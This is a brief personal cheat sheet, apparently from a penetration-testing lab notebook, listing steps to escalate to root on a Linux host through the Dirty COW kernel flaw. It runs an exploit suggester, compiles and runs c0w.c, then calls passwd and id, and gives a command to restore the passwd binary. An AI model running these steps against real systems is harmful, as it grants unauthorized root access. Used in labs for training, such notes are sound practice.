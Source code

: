 ```yaml
---
title: dirtycow
updated: 2023-10-14 06:55:14Z
created: 2023-10-14 06:51:19Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. In command prompt type:
**./linux-exploit-suggester.sh**
2. From the output, notice that the OS is vulnerable to “**dirtycow**”.
3. compile c0w.c
`gcc -pthread /home/kali/tools/dirtycow/c0w.c -o c0w`
4. Execute:
`./c0w`
5. Exploit:
`passwd`
`id`

To revert changes:
`cp /tmp/bak /usr/bin/passwd`
